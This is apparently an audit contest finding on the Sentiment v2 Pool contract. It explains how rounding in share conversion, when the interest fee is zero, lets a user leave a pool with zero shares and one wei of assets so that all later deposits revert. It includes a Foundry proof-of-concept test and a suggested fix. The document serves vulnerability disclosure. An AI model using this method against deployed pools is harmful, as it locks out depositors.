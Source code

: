 Attractive Caramel Fox

Medium

# The `Pool` contract can be DoSed

## Summary
The `Pool` contract can be DoSed
## Vulnerability Detail
For this attack, we will cover the case where the `interestFee` of a pool is 0. While I haven't fully tested this attack for a pool with a positive interest fee, I don't see a reason why it wouldn't be possible in a similar case as well. Note that an `interestFee` of 0 is completely valid as both seen by how the code functions and as confirmed by the sponsor.

Upon depositing, we convert to shares using this function:
```solidity
function _convertToShares(
        uint256 assets,
        uint256 totalAssets,
        uint256 totalShares,
        Math.Rounding rounding
    ) internal pure returns (uint256 shares) {
        if (totalAssets == 0) return assets;
        shares = assets.mulDiv(totalShares, totalAssets, rounding);
    }
```
We can see that if `totalAssets` equals 0, we would just return `assets`. If it is not, we use a typical shares calculation formula to determine the amount of `shares`. We have to note that if `totalShares` is 0 but `totalAssets` is not, this would return 0 shares which would make `deposit()` revert.

To make `totalShares` equal to 0 but `totalAssets` larger than 0, we need to use rounding to our advantage:
1. User deposits an amount
2. User borrows that amount
3. Some time passes (even 1 second) in order for interest to accrue:
```solidity
pool.totalDepositShares += feeShares;
pool.totalBorrowAssets += interestAccrued;
pool.totalDepositAssets += interestAccrued;
```
4. `feeShares` would be 0 in this example as `feeInterest` is 0 and we would increase `totalDepositAssets` for the pool by the interest accrued
5. User withdraws all but 1 of his assets (deposited amount + interest accrued) and we calculate shares to burn like this:
```solidity
shares = _convertToShares(assets, pool.totalDepositAssets, pool.totalDepositShares, Math.Rounding.Up);
```
Which calls this:
```solidity
shares = assets.mulDiv(totalShares, totalAssets, rounding);
```
6. We can see that we round up here due to the use of `Math.Rounding.Up`, `assets` is 1 wei smaller than `totalAssets` so that would make `shares` round up to `totalShares`
7. Then, we have these 2 lines:
```solidity
pool.totalDepositAssets -= assets;
pool.totalDepositShares -= shares;
```
8. The new `totalDepositAssets` are 1 and the new `totalDepositShares` are 0 making our initial goal successful
9. Now, no one would be able to deposit due to the reason explained in the beginning of the report

Paste the following POC into `Pool.t.sol`:
```solidity
    function testDosOfPool() public {
        address positionManager = registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY); // Get position manager
        vm.prank(protocolOwner);
        pool.setInterestFee(linearRatePool, 0); // Set interest fee as 0, that is a valid pool interest fee

        vm.startPrank(user);
        uint256 amount = 1 ether;
        asset1.mint(user, amount);
        asset1.approve(address(pool), amount); // User has 1 ETH

        pool.deposit(linearRatePool, amount, user); // User deposits 1 ETH

        assertEq(pool.getAssetsOf(linearRatePool, user), amount);
        assertEq(pool.balanceOf(user, linearRatePool), amount);

        vm.stopPrank();

        // We call .repay on the pool directly for simplicity purposes (the other tests in this file are also like that), not exactly the actual flow that would happen but doesn't change the attack
        vm.startPrank(positionManager);
        pool.borrow(linearRatePool, user, amount); // User borrowws his 1 ETH
        vm.stopPrank();

        vm.warp(block.timestamp + 1 seconds);
        assertEq(pool.getAssetsOf(linearRatePool, user), 1000000063376175629); // Accrue some interest

        assert(pool.getBorrowsOf(linearRatePool, user) != 0); // We have borrowed, we need to repay

        vm.startPrank(positionManager);
        asset1.mint(address(pool), pool.getBorrowsOf(linearRatePool, user)); // Minting as we don't actually transfer anything below as we call the pool directly as noted in one of my above comments, this mocks a transfer essentially
        pool.repay(linearRatePool, user, pool.getBorrowsOf(linearRatePool, user));
        vm.stopPrank();

        assertEq(pool.getBorrowsOf(linearRatePool, user), 0); // We have repaid

        uint256 withdrawAssets = pool.getAssetsOf(linearRatePool, user) - 1; // Withdraw all but 1 of our assets

        vm.startPrank(user);
        pool.withdraw(linearRatePool, withdrawAssets, user, user); // Withdraw
        vm.stopPrank();

        address user2 = makeAddr('user2');
        asset1.mint(user2, amount);
        vm.startPrank(user2);
        asset1.approve(address(pool), amount);
        vm.expectRevert(abi.encodeWithSelector(Pool.Pool_ZeroSharesDeposit.selector, linearRatePool, amount)); // Revert as we mint 0 shares
        pool.deposit(linearRatePool, amount, user);
        vm.stopPrank();
    }
```
## Impact
DoS of the `Pool` contract
## Code Snippet
https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/25a0c8aeaddec273c5318540059165696591ecfb/protocol-v2/src/Pool.sol#L275-L283
## Tool used

Manual Review

## Recommendation
Use a different implementation for the share/asset conversion functions to not allow a situation where the shares are 0 and assets are more than 0